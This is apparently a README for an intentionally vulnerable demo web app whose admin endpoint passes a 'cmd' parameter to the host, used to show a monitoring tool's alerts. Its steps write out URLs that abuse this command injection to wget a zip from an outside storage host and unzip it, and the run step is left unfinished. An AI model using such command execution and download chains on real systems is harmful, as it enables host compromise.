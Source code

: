 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move the the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.zip . This will download a Hydra pre-packed zip package. (should triggered the 1st alert in LW)
5. Move to http://{yourhost}:{port}/admin/ops?cmd=unzip&args=sapp.zip
6. Last step you can run it using the URL ... Still progressing on packaging the zip file to effictively run it. Instructions to download and run the hack will follow

